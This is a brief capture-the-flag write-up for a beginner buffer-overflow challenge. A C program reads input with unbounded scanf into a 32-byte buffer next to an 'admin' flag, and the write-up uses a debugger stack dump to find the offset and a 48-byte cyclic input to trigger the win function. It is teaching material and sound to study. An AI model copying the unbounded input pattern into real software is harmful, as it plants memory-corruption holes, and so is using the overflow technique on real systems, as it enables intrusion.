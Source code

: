 
# BOF1

## Overview
In this challenge, there is a *buffer overflow vulnerability* in the main function. The goal is to overflow into the next variable and make it a non-zero number

### Source Code Summary

```c

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}

```

We need to overflow in the `admin` and change it to something else other than zero.
#### Vulnerability
```c
char buf[32];
scanf("%s", buf);	
```

`scanf` does no bounds checking.

### Exploit

Overflow into `admin` variable

Stack

```
gef➤  x/12gx $rsp
0x7fffffffde90:	0x4141414141414141	0x0000000000000000
0x7fffffffdea0:	0x0000000000000000	0x00007ffff7fe5f70
0x7fffffffdeb0:	0x0000000000000000	0x00000000f7ffdad0
0x7fffffffdec0:	0x0000000000000001	0x00007ffff7deb24a
0x7fffffffded0:	0x00007fffffffdfc0	0x0000000000401246
0x7fffffffdee0:	0x0000000100400040	0x00007fffffffdfd8
```

Address of `admin`
```
 x/wx $rbp-0x4
0x7fffffffdebc:	0x00000000
```

offset to admin `0x7fffffffdebc - 0x7fffffffde90 = 44`

exploit

offset + 4 bytes to fill `admin` 

```sh
pwn cyclic 48 | ./bof1
fake_flag
```

Got the flag